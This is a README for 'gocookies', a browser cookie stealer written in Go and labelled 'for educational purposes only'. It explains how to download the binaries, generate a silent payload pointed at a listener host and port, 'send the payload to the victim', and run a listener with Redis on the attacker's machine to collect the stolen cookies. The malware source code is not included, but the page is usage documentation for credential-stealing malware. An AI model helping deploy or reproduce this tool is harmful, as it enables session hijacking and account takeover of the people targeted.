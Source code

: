 # gocookies
**[For educational purposes only]** </br>
A browser cookie stealer written in Go.</br>
There are 3 components to this project:
- gocookies
- gocookies-generate
- gocookies-listener

The generator is used to generate a payload that can be sent to the victim. 
It will steal the cookies from the victim's browser and send them to the listener.

The listener is run on the attacker's machine and will receive the cookies from the victim.
It stores the received cookies in a Redis database that will be automatically setup within a Docker container.

## Pre-requisites
- Docker
- Go
- Git

## Getting started
### gocookies-generate
Clone the repository.
```
git clone https://github.com/simonfalke-01/gocookies.git
```
Then, download the latest release.
#### Linux
```
curl https://github.com/simonfalke-01/gocookies/releases/latest/download/generate-linux -o generate && curl https://github.com/simonfalke-01/gocookies/releases/latest/download/listener-linux -o listener && chmod +x generate listener
```
#### macOS
```
curl https://github.com/simonfalke-01/gocookies/releases/latest/download/generate-macos -o generate && curl https://github.com/simonfalke-01/gocookies/releases/latest/download/listener-macos -o listener && chmod +x generate listener
```
Alternatively, you can go to the [releases](https://github.com/simonfalke-01/gocookies/releases/latest/) page and download the binaries manually.

## Generate payload
Ensure you have already cloned the repository and downloaded the latest release. If not, see [Getting started](#getting-started). </br>
The `./generate` command will generate a payload that can be sent to the victim. </br>
It requires the following arguments:
- `-h` - The host of the listener
- `-p` - The port of the listener
- `-d` - The path of the gocookies directory
- `-v` (optional) - Whether the payload generated will print verbose output (normally, the payload does not print any output)

Example:
```
./generate -h localhost -p 8091 -d ~/gocookies/gocookies
```
Where ~/gocookies is the cloned repository. </br>
Then, you may send the payload to the victim.

## Setup listener
Ensure you have already cloned the repository and downloaded the latest release. If not, see [Getting started](#getting-started). </br>
The `./listener` command will setup the listener. </br>
It requires the following arguments:
- `-r` - The port which Redis will be running on
- `-p` - The port which the listener will be running on
- `-e` (optional) - Whether to use an existing Redis container (if not specified, a new Redis container will be created). If specified, `-r` will be the port of the existing Redis container.

Example:
```
./listener -r 8090 -p 8091
```
Then, you may wait for the victim to connect to the listener and send the cookies.

## Build from source
Ensure you have already cloned the repository. If not, see [Getting started](#getting-started). </br>
### Building gocookies-generate
```
cd gocookies-generate
go build
```
### Building gocookies-listener
```
cd gocookies-listener
go build
```